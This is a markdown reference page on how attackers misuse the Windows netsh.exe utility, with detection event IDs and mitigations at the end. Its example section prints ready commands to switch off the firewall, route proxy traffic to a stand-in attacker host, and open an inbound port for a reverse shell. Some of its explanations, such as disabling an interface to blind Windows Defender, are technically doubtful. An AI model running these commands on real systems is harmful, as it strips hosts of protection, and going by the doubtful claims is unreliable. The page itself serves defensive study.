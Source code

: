 # netsh.exe
## What is it?
*```netsh.exe``` (Network Shell) is a **built-in Windows command-line utility** used for configuring and managing network interfaces, firewall settings, and various network-related tasks on Windows operating systems. It allows users to query, modify, and configure system network settings from the command prompt.*

*As a trusted system tool, it is often overlooked by security software, which makes it a valuable tool for attackers looking to hide their activities or bypass network-based defenses.*

## Legitimate Usage
- **Configure Network Interfaces** → Use ```netsh``` to configure network adapters, IP addresses, DNS servers, and more.
- **Manage Windows Firewall** → Control firewall settings, including enabling/disabling rules, and managing inbound/outbound traffic.
- **Network Diagnostics** → Perform diagnostic tasks like checking network connectivity or flushing DNS.
- **Configure Routing** → Set up routing for network traffic between different subnets or devices.

## How to abuse it
- **Evasion via Trusted Utility** → Attackers can use ```netsh.exe``` to make network configuration changes that evade detection by security tools, such as disabling firewall rules or changing IP configurations.
- **Disabling Network Monitoring** → By modifying or disabling network traffic monitoring tools or firewall settings, attackers can ensure that their activities are not detected.
- **Lateral Movement** → Attackers can use ```netsh.exe``` to configure network interfaces or routing, facilitating lateral movement across the network.
- **Persistence** → Attackers can make persistent changes to network configurations, ensuring continued access to compromised systems.

## Example attacks
### 1. Disabling Windows Firewall for Evasion
*Attackers can use ```netsh.exe``` to disable the firewall, ensuring that no alerts are triggered by malicious network activity.*

**Disable Windows Firewall**

```
netsh advfirewall set allprofiles state off
```

**Effect:**
- Disables the **Windows Firewall** for all profiles, allowing unrestricted network traffic.

### 2. Modify Proxy Settings for Data Exfiltration
*```netsh.exe``` can be used to change proxy settings, redirecting network traffic through an attacker-controlled server for data exfiltration or command and control (C2) communication.*

**Change Proxy Settings**

```
netsh winhttp set proxy proxy.example.com:8080
```

**Effect:**
- Redirects traffic to an attacker-controlled proxy, allowing them to intercept sensitive data or send commands to the target system.

### 3. Lateral Movement via IP Configuration Changes
*Attackers may use ```netsh.exe``` to modify network interfaces or routing tables, enabling them to move laterally across the network.*

**Change IP Address for Lateral Movement**

```
netsh interface ip set address name="Ethernet" static 192.168.1.100 255.255.255.0
```

**Effect:**
- Changes the IP address of the network interface, enabling lateral movement and potentially evading detection by IP-based security controls.

### 4. Manipulating Firewall Rules to Allow Malicious Traffic
*Attackers can use ```netsh.exe``` to add custom firewall rules, allowing inbound or outbound traffic that would otherwise be blocked.*

**Allow Inbound Traffic on Port 8080**

```
netsh advfirewall firewall add rule name="Allow HTTP" dir=in action=allow protocol=TCP localport=8080
```

**Effect:**
- Opens port 8080 on the firewall, allowing an attacker to establish a reverse shell or communication channel over this port.

### 5. Disabling Network Monitoring for Stealth
*```netsh.exe``` can be used to disable network monitoring tools like Windows Defender or disable the monitoring of network connections, making it harder to detect suspicious activity.*

**Disable Network Monitoring**

```
netsh interface set interface "Ethernet" disable
```

**Effect:**
- Disables the **Ethernet interface**, preventing monitoring or analysis of network traffic on that interface.

# Detection & Mitigation
## Detection Methods
**Monitor ```netsh.exe``` Executions**
- **Event ID 4688 (Process Creation)** → Monitor the creation of ```netsh.exe``` processes, especially if they are executed with suspicious arguments or by non-administrative users.
- **Behavioral Analysis** → Look for unusual network configuration changes or firewall modifications that could indicate an attack.

**Monitor Network Traffic**
- **Event ID 5156 (Windows Filtering Platform)** → Detect changes in network filtering and firewall rules that could indicate malicious network activity.
- **Network Traffic Analysis** → Monitor outbound traffic for unexpected destinations or unusual proxy settings that may be used for exfiltration or C2 communication.

**Monitor Scheduled Tasks**
- **Event ID 4698 (Scheduled Task Created)** → Track the creation of scheduled tasks that invoke ```netsh.exe``` for persistent network changes.

## Mitigation Strategies
- **Restrict Access to ```netsh.exe```** → Use application whitelisting tools (such as AppLocker or WDAC) to restrict access to ```netsh.exe``` for non-administrative users.
- **Monitor Firewall and Network Changes** → Regularly review firewall settings and network configurations for unauthorized changes, especially those related to inbound or outbound rules.
- **Implement Network Segmentation** → Use network segmentation to isolate critical systems, making it more difficult for attackers to move laterally across the network.
- **Use Endpoint Detection and Response (EDR)** → Monitor for suspicious network configuration changes that could indicate malicious intent.
